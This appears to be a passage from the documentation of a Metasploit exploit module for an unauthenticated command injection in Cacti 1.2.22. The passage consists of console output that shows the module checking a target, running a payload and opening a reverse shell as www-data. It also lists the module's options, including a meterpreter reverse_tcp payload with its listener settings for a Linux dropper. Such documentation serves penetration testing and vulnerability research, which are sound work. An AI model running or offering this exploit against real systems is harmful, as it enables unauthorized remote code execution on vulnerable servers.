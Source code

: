 ```
[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (192.168.91.195:4444 -> 10.18.0.3:50802) at 2022-12-22 16:51:46 +0200

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce with undetermined result, then manual exploitation)
```
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
```